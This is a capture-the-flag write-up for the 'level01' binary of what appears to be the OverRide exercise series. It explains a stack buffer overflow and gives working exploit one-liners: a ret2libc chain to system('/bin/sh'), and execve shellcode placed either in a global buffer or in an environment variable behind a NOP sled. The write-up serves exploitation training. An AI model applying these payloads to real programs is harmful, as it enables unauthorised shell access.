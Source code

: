 # level01
For this binary, `NX` is disabled.

The program waits for username and password entry in `stdin`


## Step 1 : Enter in the program
Once decompiled, we can see that the program compares the username entry with `dat_wil`.

## Step 2 : Figure out the vulnerability
Then, the program compares the password entry with `admin`, but it always performs the failed login message.

Also, the program reads 100 bytes for the password entry with `fgets` and store the input in a buffer of 64 bytes. __This is the vulnerability__

## Step 3 : Find the offset
Find the offset of the instruction pointer by using `gdb` and [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

```console
level01@OverRide:~$ gdb -q level01
(gdb) run
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

- The program segfaults, because it continue to `0x37634136` address.
- `0x37634136` is at the 80th position from the beginning of the buffer. At this positon, it overwrites the program counter: `eip`.

## Exploit with Ret2libc
Overwrite `eip` and make a [__Ret2libc__](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) attack.

1. Address of system: `(gdb) p system` -> `0xf7e6aed0`
2. Address of exit: `(gdb) p exit` -> `0xf7e5eb70`
3. Address of "/bin/sh": `find &system,+9999999,"/bin/sh"` -> `0xf7f897ec`

```bash
(python -c 'print "dat_wil" + "\n" + "A" * (80) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | /home/users/level01/level01
```

> The `[::-1]` is used to reverse the string because of the little-endian architecture. see [slicing in python](https://stackoverflow.com/questions/509211/how-slicing-in-python-works).
 
> Dont forget to run the binary with the same environment as in gdb (give the entirer path to the binary and/or unset LINES COLUNMS)
- https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue


- https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

## Shellcode in username buffer

1. Can't store instruction in the password buffer and go to, it segfaults  
2. Use the username buffer to store the shellcode.  

Username entry is stored in a global variable named `a_user_name` at `0x0804a040`

```bash
objdump -t level01 | grep a_user_name
```  
```console
0804a040 g     O .bss	00000064              a_user_name
```
- Write a shellcode at the end of the buffer
- Return to the address of the `a_user_name` + 7 bytes

> 7 bytes are added to skip the `dat_wil` string and reach the shellcode.

```bash
(python -c 'print "dat_wil" "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\n" + "A" * (80) + "\x08\x04\xa0\x47"[::-1] '; cat) | /home/users/level01/level01
```

shell code [here](https://shell-storm.org/shellcode/files/shellcode-752.html)


## Shellcode in the environment
1. Put a shellcode in an environment variable
2. Get the address of the environment variable
3. Return to the environment variable

### 1. Put a shellcode in an environment variable
```bash
env -i SHELLCODE=$(python -c 'print "\x90" * 512 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') gdb -q level01
```

> unset the environment with `env -i` to avoid the address shifting between the normal execution and the debug mode.

### 2. Get the address of the environment variable
```console
(gdb) b *main
(gdb) r
(gdb) x/5s *((char **)environ + 0)
0xffffdd8d:	 "COLUMNS=169"
0xffffdd99:	 "PWD=/home/users/level01"
0xffffddb1:	 "LINES=41"
0xffffddba:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220...
```

Shellcode is at `0xffffddba` + 512 bytes of `NOP` = `0xffffdfba`

### 3. Return to the environment variable
```bash
(python -c 'print "dat_wil" + "\n" + "A" * 80 + "\xff\xff\xdf\xba"[::-1]'; cat) | env -i SHELLCODE=$(python -c 'print "\x90" * 512 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') /home/users/level01/level01
```
